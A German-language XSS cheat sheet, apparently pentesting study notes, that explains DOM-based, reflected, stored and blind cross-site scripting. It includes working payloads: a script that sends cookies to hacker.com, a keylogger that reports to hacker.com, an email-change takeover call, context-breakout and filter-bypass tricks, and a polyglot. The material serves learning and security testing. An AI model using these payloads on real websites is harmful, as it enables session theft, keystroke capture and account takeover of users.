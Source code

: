 ```yaml
---
description: execute javascript in victim browsers
---
```


# XSS (cross-site scripting) — when user input becomes executable code

**DOM-based XSS:**\
JavaScript wird direkt im Browser über die HTML/DOM-Struktur ausgeführt, z. B. durch manipulierte `<script>`-Tags.

**Persistent XSS:**\
Schädlicher Code wird serverseitig gespeichert (z. B. in Blog-Kommentaren) und beim Laden der Seite an alle Nutzer ausgeliefert.

**Reflected XSS:**\
Schädlicher Code wird über die URL oder Formulareingaben eingeschleust und sofort clientseitig ausgeführt, z. B. bei unsicheren Suchfeldern.

## Payloads

Payloads werden in zwei Einzelteile zerlegt

1. Intention : Was soll der JavaScript ermöglichen?
2. Modifikation : Wie muss der originale Code an das gewünschte Szenario angepasst werden?

### \[1] Intention : Proof-of-Concept

Zur Demonstration der Möglichkeit von XSS reicht eine alert-box mit Text wie :&#x20;

```
<script>alert(document.domain);</script>
```

### \[2] Intention : Session Stealing

Diebstahl aller Cookies einer Zielmaschine.

{% code overflow="wrap" %}
```
<script>
    fetch(
        'https://hacker.com/steal?cookie=' + btoa(document.cookie)
    );
</script>
```
{% endcode %}

Der Code lädt alle Cookies des aktuellen Browsers mit _document.cookie_, kodiert die Daten mit base64 (btoa) und überträgt sie per Anfrage an die Seite _hacker.com/steal_ als Parameter _cookie_.

### \[3] Intention : Keylogger

Übertragung der Tastenanschläge eines Nutzers einer Zielmaschine

{% code overflow="wrap" %}
```
<script>
    document.onkeypress = function(e) {
        fetch(
            'https://hacker.com/log?key=' + btoa(e.key)
        );
    }
</script>
```
{% endcode %}

Dem Dokument wird der onkeypress - Listener angefügt. Dieser triggert bei Tastaturanschlag und führt eine anonyme Funktion aus. Der Key wird aus dem Event e ausgelesen und base64-kodiert als Anfrage an hacker.com/log mit Parameter key gesendet.

### \[4] Intention : Business Logic

Ausnutzen spezifischer Funktionen.

Beispielsweise könnte eine Seite die Funktion user.changeEmail( ) enthalten.

```
<script>user.changeEmail('attacker@hacker.com');</script>
```

Durch den Payload könnte die Email-Adresse des Accounts geändert werden und zum Reset des Passworts verwendet werden. (Reset Password Attack)

## Reflected XSS

Dies tritt auf, wenn vom Nutzer bereitgestellte Daten in der Website eingebunden werden ohne vorher überprüft/ validiert zu werden.

### Impact

Der Angreifer könnte Links senden oder sie in einen Iframe auf einer anderen Website einbetten, der eine JavaScript-Nutzlast enthält, um potenzielle Opfer dazu zu bringen, Code in ihrem Browser auszuführen, wodurch sie möglicherweise Sitzungs- oder Kundendaten preisgeben.

### Test auf Reflected XSS

Prüfung auf jeden möglichen Eintrittspunkt wie :&#x20;

* Parameter im URL-Query-String
* URL Datei-Pfad
* Manchmal HTTP-Header (obwohl es unwahrscheinlich ist, dass dies in der Praxis ausgenutzt werden kann)

## Stored XSS

Der XSS-Payload wird in der Web-Anwendung hinterlegt (z.b. Datenbank) und ausgeführt wenn andere Benutzer die Seite besuchen.

### Impact

Der Payload könnte Benutzer auf eine andere Website umleiten, die Sitzungs-Cookies des Benutzers stehlen oder andere Website-Aktionen durchführen, während es sich als der besuchende Benutzer ausgibt.

### Test auf Stored XSS

Es müssen alle möglichen Einstiegspunkte getestet werden, an denen Daten gespeichert und dann in Bereichen angezeigt werden, auf die andere Benutzer Zugriff haben.

* Kommentare in einem Blog
* Benutzerprofil-Informationen
* Website-Auflistungen

### Tipp

Wenn Inputs auf der Client-Side beschränkt werden (z.B. Limit der Eingabezeichen oder Beschränkung auf Integer), kann manuelles Übermitteln (curl) mit nicht erwarteten Eingabewerten Wunder bewirken!

## DOM Based XSS

DOM-basiertes XSS bedeutet, dass die JavaScript-Ausführung direkt im Browser erfolgt, ohne dass neue Seiten geladen oder Daten an den Backend-Code übermittelt werden. Die Ausführung erfolgt, wenn der JavaScript-Code der Website auf Eingaben oder Benutzerinteraktionen reagiert.

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/24a54ac532b5820bf0ffdddf00ab2247.png" alt=""><figcaption><p>HTML Document Object Model</p></figcaption></figure>

### Impact

Es könnten manipulierte Links an potenzielle Opfer gesendet werden, die sie auf eine andere Website umleiten oder Inhalte von der Seite oder der Sitzung des Benutzers stehlen.

### Test auf DOM Based XSS

DOM-basiertes XSS kann schwierig zu testen sein und erfordert ein gewisses Maß an Kenntnissen über JavaScript, um den Quellcode zu lesen. Man muss nach Teilen des Codes suchen, die auf bestimmte Variablen zugreifen, über die ein Angreifer die Kontrolle haben kann, wie z. B. "window.location.x"-Parameter.

Wenn diese Codeteile gefunden wurden, muss ihre Behandlung geprüft werden und ob die Werte jemals in das DOM der Webseite geschrieben oder an unsichere JavaScript-Methoden wie eval() übergeben werden.

```
<iframe src="javascript:alert(`xss`)"> 
```

## Blind XSS

Ähnlich wie Stored XSS. Payload wird auf der Seite gespeichert und kann von anderen Nutzern aufgerufen werden. Allerdings kann der Angreifer nicht prüfen ob er funktioniert

### Impact

Mit dem richtigen Payload könnte das JavaScript des Angreifers Callbacks zur Website des Angreifers tätigen und die URL des Mitarbeiterportals, die Cookies des Mitarbeiters und sogar den Inhalt der angezeigten Portalseite preisgeben. Nun könnte der Angreifer möglicherweise die Sitzung des Mitarbeiters entführen und Zugang zum privaten Portal erhalten.

### Test auf Blind XSS

* Payload mit Callback (HTTP Request).
* Ein bekanntes Tool für diese Attack ist XSS Hunter Express ([https://github.com/mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)).

## Weitere Tipps

* Wenn \<script>.. innerhalb eines input-Elements erscheint, dann muss zuerst escaped werden mit bspw. `"><script>exploit</script>`
* Wenn input in \<script> auftaucht wie bspw. `document.getElementsByClassName('name')[0].innerHTML='d33d';` dann kann XSS eingefügt werden durch `document.getElementsByClassName('name')[0].innerHTML='d33d';alert('XSS-Vulnerability');//';`
* Wenn ein Filter bestimmte Strings wie bspw. string aus \<string> entfernt, kann folgendes probiert werden : \<s**script**cript>. Nach Entfernen des inneren "script" bleibt ein zweites übrig und kann ggfalls ohne weitere Prüfungs ausgeführt werden.
* Wenn möglich kann auch über einfügen von bspw. `onload="alert('XSS');` ausgenutzt werden.

## XSS Polyglot

Eine Textfolge, die Attribute und Tags umgehen kann und gleichzeitig Filter umgeht.\


{% code overflow="wrap" %}
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('P0ly') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('P0ly')//>\x3e
```
{% endcode %}
